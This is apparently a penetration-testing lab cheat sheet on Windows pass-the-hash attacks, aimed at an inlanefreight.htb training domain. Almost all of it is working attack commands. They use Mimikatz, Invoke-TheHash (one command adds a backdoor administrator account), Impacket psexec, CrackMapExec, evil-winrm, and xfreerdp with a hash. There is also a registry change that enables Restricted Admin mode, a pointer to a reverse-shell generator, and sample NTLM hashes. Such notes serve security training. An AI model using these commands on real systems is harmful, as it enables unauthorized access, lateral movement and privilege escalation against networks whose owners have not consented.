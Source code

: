---------------------------
# Windows NTLM Introduction
-------------------------
- Using Mimikatz
```cmd
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit

	# Options
	/user - The username we want to impersonate
	/rc4 or /NTLM - NTLM hash of the user's password
	/domain - Domain the user to impersonate belongs to.
	/run - the program we want to run once logged in	
```

- PowerShell Invoke-TheHash
```PowerShell
# Invoke-TheHash with SMB
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target $IP -Domain $DOMAIN -Username $USERNAME -Hash $HASH -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

# Note we can create a reverse shell from this command
# Go to this page to set up a revesere shell https://www.revshells.com/
# Paste whatever generated into the -Command flag
```

```PowerShell
# Invoke-TheHash with WMI
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target $IP -Domain $DOMAIN -Username $USERNAME -Hash $HASH -Command $COMMAND
```

- Pass the Hash with Impacket PsExec
```bash
impacket-psexec administrator@$IP -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

- Pass the Hash with CrackMapExec
```bash
crackmapexec smb $IP -u $USERNAME -d . -H $HASH

# Execute command with CrackMapExec
crackmapexec smb $Ip -u $USERNAME -d . -H $HASH -x $COMMAND
```

- Pass the Hash with evil-winrm
```bash
evil-winrm -i $IP -u $USERNAME -H $HASH
```

- Pass the Hash with RDP
	-Precondition: Restricted Admin Mode must be enabled on the TARGET
	```cmd
	reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
	```
	-Run xfreerdp with /pth flag
```bash
xfreerdp /v:$IP /u:$USERNAME /pth:$HASH
```

- 
